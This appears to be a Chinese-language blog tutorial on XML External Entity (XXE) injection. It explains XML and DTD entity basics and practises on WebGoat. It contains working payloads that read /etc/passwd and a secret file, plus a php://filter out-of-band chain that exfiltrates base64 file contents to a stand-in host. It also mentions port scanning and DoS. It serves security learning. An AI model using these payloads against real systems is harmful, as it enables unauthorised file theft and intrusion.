




# [XXE (XML External Entity Injection)](https://www.raingray.com/archives/2314.html)

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [XXE 漏洞原理](#XXE%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86)
    -   [XML 基本格式](#XML+%E5%9F%BA%E6%9C%AC%E6%A0%BC%E5%BC%8F)
    -   [内部 DTD 声明](#%E5%86%85%E9%83%A8+DTD+%E5%A3%B0%E6%98%8E)
    -   [外部 DTD 声明](#%E5%A4%96%E9%83%A8+DTD+%E5%A3%B0%E6%98%8E)
    -   [内/外部 DTD 实体声明](#%E5%86%85%2F%E5%A4%96%E9%83%A8+DTD+%E5%AE%9E%E4%BD%93%E5%A3%B0%E6%98%8E)
-   [利用](#%E5%88%A9%E7%94%A8)
    -   [file:// 读取文件](#file%3A%2F%2F+%E8%AF%BB%E5%8F%96%E6%96%87%E4%BB%B6)
    -   [php://filter 读取文件](#php%3A%2F%2Ffilter+%E8%AF%BB%E5%8F%96%E6%96%87%E4%BB%B6)
    -   [主机/端口扫描](#%E4%B8%BB%E6%9C%BA%2F%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F)
    -   [DOS](#DOS)
-   [总结](#%E6%80%BB%E7%BB%93)
-   [防御（待补充实例）](#%E9%98%B2%E5%BE%A1%EF%BC%88%E5%BE%85%E8%A1%A5%E5%85%85%E5%AE%9E%E4%BE%8B%EF%BC%89)
-   [参考链接](#%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5)
-   [问题](#%E9%97%AE%E9%A2%98)

## XXE 漏洞原理

### XML 基本格式

XXE 跟 XML 有关联，先了解一些基础知识再玩儿漏洞。

XML 是用来传输和存储数据的一种标准格式，就和 JSON 格式一样都是给你一个框框你往里填数据，大家都遵守这个格式在各个语言解析数据时就方便，不需要针对每个格式编写一套解析规则。

下面是从菜鸟教程摘的一段 XML 格式的数据，每行我都放上了注释。它和 HTML 某些特征一样，标签成对出现，开始标签里可以有属性。

```xml
<!-- XML 文档声明 -->  
<?xml version="1.0" encoding="UTF-8"?>
<!-- 每个 XML 文档必须有根元素 -->  
<note>
    <!-- 根元素里面叫子元素 -->  
    <to id="1">Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget me this weekend!</body>
</note>
```

XML 标签中数据是特殊字符时用 HTML 字符实体引用，避免解析器错误闭合。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<note>
    <!-- & 符号使用十六进制数字引用 -->
    <to id="1">&#x26;</to>
    <!-- & 符号使用十进制数字引用 -->
    <from>&#38;</from>
    <!-- & 符号使字符引用 -->
    <heading>&amp;</heading>
</note>
```

### 内部 DTD 声明

DTD（Document Type Definition）用于规范标签命名和属性的使用，不再像前面一样随意命名啦。

DOCTYPE 就是声明 DTD 的标签，其中 root-element，就是前面提到的根元素，这里可以自定义一个根元素名称，接着 `[element-declarations]` 里面可以决定根元素里面使用那些标签——想要在 XML 中使用任意标签就写 ANY `[ANY]`，这些标签类型怎么设置。

```xml
<!DOCTYPE root-element [element-declarations]>
```

下面看一个实例。

其中 `<!ELEMENT note (to,from,heading,body)>` 定义了 note 根元素里面只能包含 to、from、heading、body 这四个子元素。

`<!ELEMENT to (#PCDATA)>` 就是声明了一个完成元素，则是说 to 是元素名称，[#PCDATA](https://www.runoob.com/xml/xml-cdata.html)是元素类型——两个标签中的值如果是标签可以被 XML 解析器解析。元素声明看这篇[文章](https://www.runoob.com/dtd/dtd-elements.html)。

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
    <to>Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget me this weekend</body>
</note>
```

### 外部 DTD 声明

上面的内部声明标签和类型声明都放在 XML 里面，它也可以像 CSS/JS 一样去引用外部资源。

我们把标签和类型定义摘出来放入 `note.dtd` 文件中。

```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

直接在 XML 中引用这个外部文件，打开浏览器你会发现 XML 正常解析。其中最关键的是新增 `SYSTEM` 来引入 DTD 文件。

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget me this weekend</body>
</note>
```

### 内/外部 DTD 实体声明

什么是实体呢？可以可以想象成“常量”，提前定义好一个名和值，后面来调用它。

你看我们声明实体的语法和表示标签的类似，就是关键字从 ELEMENT 换成 ENTITY，同样定义外/内部实体区别在于有没有 `SYSTEM` 关键字。

实体还分为以下几种：

-   参数实体（parameter entities），定义时带有百分号。
-   内部实体（internal entities），定义不带百分号。
-   外部实体（external entities），定义不带百分号。

下面给出两种实体定义方式：

```xml
<!-- 内部实体定义 -->
<!ENTITY entity-name "entity-value">
<!ENTITY % entity-name "entity-value">

<!-- 外部实体定义 -->
<!ENTITY entity-name SYSTEM "URI/URL">
<!ENTITY % entity-name SYSTEM "URI/URL">
```

怎么去使用这两种实体？

内/外实体调用是要在标签页使用 `&` 开头，中间为实体名称，最后`;` 结尾。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exp [    <!ENTITY % value SYSTEM "http://xxx.xxx.xxx.xxx/2.dtd">    <!-- 参数实体引用 -->    %value;]>
```

参数实体呢必须要在 DTD 中调用，直接用 `%` 跟上实体名称用 `;` 结尾就成。调用时 XML 解析器会吧对应名字替换成值，下例中 pass 实体在被引用时值会被替换成 `file://c:/windows/win.ini`。

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE exp [
    <!ENTITY pass SYSTEM "file://c:/windows/win.ini">
    <!ENTITY shaodw SYSTEM "http://www.xxx.com/1.dtd">
]>

<!-- 外部实体引用 -->
<exp>
    &pass;
    &shaodw;
</exp>
```

## 利用

### file:// 读取文件

要是引用外部实体是一个文件，是不是能读取文件内容呢？下面使用 WebGoat 8.0 练习 XXE。

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE exp [
    <!ENTITY pass SYSTEM "file:///etc/passwd">
]>
<exp>
    &pass;
<exp>
```

  


同样也可以使用 HTTP 协议读取内容，这就有点 SSRF 影子。



其中远程 DTD 文件内容是。

```xml
<!ENTITY file SYSTEM "file:///home/webgoat/.webgoat-8.1.0/XXE/secret.txt">
```

Burp 发送请求后，服务器收到 Web 应用发送的请求。

```plaintext
111.200.55.98 - - [20/Jul/2020:12:33:11 +0800] "GET /attack.dtd HTTP/1.1" 301 162 "-" "Java/11.0.1" "-"
111.200.55.98 - - [20/Jul/2020:12:33:11 +0800] "GET /attack.dtd HTTP/1.1" 200 199 "-" "Java/11.0.1" "-"
```

顺利得到结果。引用顺序是 DTD 文件 -> DTD 文件内实体，在本例中是 XML 解析器发送 GET 请求得到 attack.dtd 接着调用 dtd 文件内外部实体让解析器去去文件内容。



### php://filter 读取文件

PHP 可以采用 `php://filter` 获取目标文件的内容。

```xml
<!DOCTYPE a [ 
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % dtd SYSTEM "http://www.xxx.cn/attack.dtd">
    %dtd; %accesslog; %data;
]>
```

attack.dtd 的内容。

```xml
<!-- 通过 PHP 接收 GET 参数来获得数据，也可直接查 WebServer 日志 -->
<!ENTITY % accesslog "<!ENTITY &#37; data SYSTEM 'http://www.xxx.cn/?c=%file;'>">
```

Payload 引用外部实体文件 dtd，文件内容被解析后调用参数实体 %accesslog，accesslog 参数内容是个嵌套实体，调用会联动触发 %file，最终数据当做 GET 参数传递到服务器——GET 参数不会有长度限制吗？

### 主机/端口扫描

由于采用的是 HTTP 协议请求外部实体，我们也可以像 SSRF 一样探测内网和主机端口。

### DOS

XXE 还可以进行 DOS，主要先定义一个实体值会有很多，接着循环嵌套相互调用多次即可。

## 总结

哪些地方可能存在 XXE：

1.  HTTP DATA 是 XML 时可以尝试。
2.  有时某些库也默认解析 XML，可以尝试把 Content-Type 改为 `Content-Type: application/xml`。

## 防御（待补充实例）

-   配置对应库禁用使用外部实体。
-   采用黑名单方式过滤用户传递 DTD 关键字。

## 参考链接

-   [https://www.runoob.com/xml/xml-dtd.html](https://www.runoob.com/xml/xml-dtd.html)
-   [DTD 教程](https://www.runoob.com/dtd/dtd-tutorial.html)
-   [DTD 实体 XXE 浅析](http://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247486487&idx=1&sn=52c85b90fdf6fac327f30afc2279624a&chksm=ec1e3c3fdb69b529e1f124cf80a2d22275a5ed1de1c023353559886fb799b73d100c05857b8b&scene=21#wechat_redirect)
-   [十四、XML 外部实体注入](https://wizardforcel.gitbooks.io/web-hacking-101/content/14.html)，实际案例值得一看。
-   [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357) ，深度好文
-   WebGoat8.0
-   [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)

## 问题

1.  除了可以通过 http、file 协议可以关注语言本身还支持哪些。

最近更新：2022 年 06 月 22 日 17:23:18

发布时间：2020 年 07 月 21 日 01:15:00
